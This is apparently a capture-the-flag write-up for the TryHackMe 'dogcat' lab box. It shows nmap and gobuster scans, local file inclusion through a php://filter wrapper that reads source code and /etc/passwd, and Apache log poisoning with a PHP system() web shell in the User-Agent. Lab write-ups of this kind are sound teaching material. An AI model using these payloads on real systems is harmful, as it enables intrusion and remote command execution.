 # 'dogcat' box writeup
## dogcat is a CTF box created by jammy and available on the [TryHackMe platform](https://tryhackme.com).
## Read about [LFI using wrappers](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter), [Log poisoning](https://liberty-shell.com/sec/2018/05/19/poisoning/)

# ![bg](images/background.png?raw=true "Title")

## Foothold
+ **We deploy the machine and start with a nmap scan for open ports**

``nmap -sV -sC -oN scan1 10.10.23.37``

+ **We observe 2 open ports, ssh and an http, the last one with an Apache service**

# ![h](images/nmapp.jpg?raw=true "dog")

+ **Taking a look inside the web page, we can see a gallery made of dog and cats; pressing one of the buttons, an image shows up and we can observe the [view] parameter inside our URL**

# ![h](images/webpage.png?raw=true "dog")

**I've tried out some LFI from this position but with no success. So i changed the query string, adding some text inside**

# ![h](images/triedo2.jpg?raw=true "dog")

**It looks that the LFI vuln is present, but in a different form. The php script seems to include the page that we insert into the [view] parameter, openning a stream. But, the ``/etc/passwd`` that we inserted now has another extension: a ``.php``one. Also, the strings needs to contains another substring inside: ``cat``. If we're not using this string, we have no output from our request**


+ **Now, let's try a gobuster scan to see what php files we can find so maybe we can read them**

``gobuster dir -u http://10.10.23.37/ -w /usr/share/wordlists/dirb/common.txt -x php``

# ![h](images/gobusto.jpg?raw=true "dog")

+ **Now we know that there's index.php and flag.php files inside our directory. Now, reading some of the LFI techniques, we can spot a PHP wrapper way: we are going to try to use a base64 encoding type to convert the content of the php index file and finally to read it. We must keep in mind the fact that the ``cat`` substring need to be inside our main string. Let's apply the filter over our [view] parameter**

``http://10.10.23.37/?view=php://filter/convert.base64-encode/cat/resource=index``

# ![h](images/index.jpg?raw=true "dog")

+ **Here we have the content of index.php page, encoded with base64. Let's decode it and look into our page source code, where we can see some interesting php code**

```php
<?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
```

+ **Let's understand this php code to see what's happening behind:** 
We have a **containsStr** function which returns the first occurence of a substring in a string; it's like the C **strstr** function.

Another thing it's that **$ext** variable which will be checked inside the URL parameter: if **$ext** exists, the URL file's extension will be used, else there will be set a *php* extension. We saw before that every string that we insert will end by having a *php* extension.

Then, the script checks if the view parameter is not NUL and checks if the query string contains the cat or dog substrings. If this happens, we get the inclusion and simultanously the extension is set with our **$ext**. 

So, we need to insert a **$ext** variable inside our view parameter, but without some value so we can read any file on the system

+ **We can read our first flag1 using the same wrapper, which outputs the flag php page now, encoded with the same base64**

``http://10.10.23.37/?view=php://filter/convert.base64-encode/cat/resource=flag``

+ **Let's move on and try to read the /etc/passwd file. I included the $ext value in the URL too**

``http://10.10.23.37/?view=php://filter/convert.base64-encode/cat/resource=../../../../etc/passwd&ext=``

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

# Log poison

+ **We can use LFI for path traversal and now we're moving on next step: log poison so we can access the system. Looking into the access.log file it seems like we are gonna use the User Agent poisoning**

``http://10.10.23.37/?view=cat/../../../../var/log/apache2/access.log&ext=``

# ![h](images/logpoison.jpg?raw=true "dog")

+ **In order to explain a little bit the log poison procedure, in the /var/log/apache2 folder, there's a file called access.log which keeps all the requests of the apache web-site. We are gonna modify the User-Agent parameter in our GET request with a system cmd so we can get a shell, the system will parse that log file and we will enter inside. The first method i will do this will be with the help of burpsuite. Take a request so we can modify it**

**Modify the User-Agent:** ``<?php echo system($_GET["cmd"]); ?>``
**Insert the 'cmd' variable into the URL and try a command (i've tried ls)**

# ![h](images/burpeds.jpg?raw=true "dog")

+ **We can see we have our output of ls command**



